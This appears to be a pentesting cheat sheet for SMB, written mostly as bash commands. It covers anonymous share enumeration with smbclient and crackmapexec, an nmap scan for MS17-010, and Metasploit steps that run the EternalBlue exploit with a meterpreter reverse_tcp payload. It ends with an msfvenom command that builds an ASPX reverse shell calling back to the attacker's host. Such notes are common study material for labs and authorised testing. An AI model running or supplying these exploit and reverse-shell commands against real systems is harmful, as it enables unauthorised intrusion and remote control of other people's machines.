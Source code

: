 ## Basic SMB Enumeration

```bash
smbclient -L //<ip>               # List available shares (anonymous)
smbclient //ip/share              # Connect to share (anonymous)
smbclient //ip/share -u <user>    # Connect as specific user

crackmapexec smb <ip> -u guest -p '' --shares  # List shares with null session
```

## Vulnerability Scanning
```bash
nmap -p 445 --script vuln -Pn -T4 -v <ip>   # Check for SMB vulns (e.g., MS17-010)
```


---

# EternalBlue (MS17-010)
### Exploit with Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set LHOST <your_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### MSFVenom Payload 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f aspx -o shell.aspx
```
